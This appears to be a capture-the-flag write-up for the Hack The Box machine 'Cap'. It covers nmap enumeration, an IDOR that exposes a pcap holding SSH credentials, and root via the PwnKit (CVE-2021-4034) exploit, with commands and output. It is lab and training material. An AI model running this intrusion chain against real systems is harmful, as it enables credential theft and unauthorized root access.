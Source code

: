 ![image](img/Cap/Cap.png)


## Nmap Scan

```jsx
└─$ nmap -p $(cat ports.txt) -sVT -O --min-rate=2000 10.10.10.245   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 00:42 EDT
Nmap scan report for 10.10.10.245
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds

```

### Enumerating vsftpd (Port 21)

```jsx
msf6 auxiliary(scanner/ftp/anonymous) > exploit
[*] 10.10.10.245:21       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```jsx
└─$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:syp): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
```

Anonymous FTP login failed

Searching for `vstfpd 3.0.3 exploits`   give us only a DOS exploit, which is not useful in our case

### Enumerating Gunicorn Website (Port 80)

```jsx
└─$ whatweb 10.10.10.245
[http://10.10.10.245](http://10.10.10.245/) [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```

![image](img/Cap/image.png)

## IDOR Vulnerability

Entered `/data/0` and got a new pcap file `0.pcap`

![image](img/Cap/image%201.png)

Analyzing the pcap in Wireshark:-

![image](img/Cap/image%202.png)

we got a confirmed user `nathan` 

![image](img/Cap/image%203.png)

Bingo, got the password for `nathan`

`nathan:Buck3tH4TF0RM3!`

Using SSH to login to the machine as `nathan` with the above creds:-

```jsx
To check for new updates run: sudo apt update
Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

## Privilege Escalation

`sudo -l` says cap cannot run any sudo commands on Cap.

```jsx
nathan@cap:/$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
```

Imported and run [`linpeas.sh`](http://linpeas.sh) on the target machine

Discovered this misconfiguration

![image](img/Cap/image%204.png)

### CVE-2021-4034

[https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)

A local privilege escalation in polkit’s pkexec allows for privesc on all versions of polkit below version 0.113

Copied the exploit POC repo to the target machine

```jsx
nathan@cap:/tmp/tmp2$ cd CVE-2021-4034/
nathan@cap:/tmp/tmp2/CVE-2021-4034$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
nathan@cap:/tmp/tmp2/CVE-2021-4034$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
nathan@cap:/tmp/tmp2/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# 
```

`pwned`
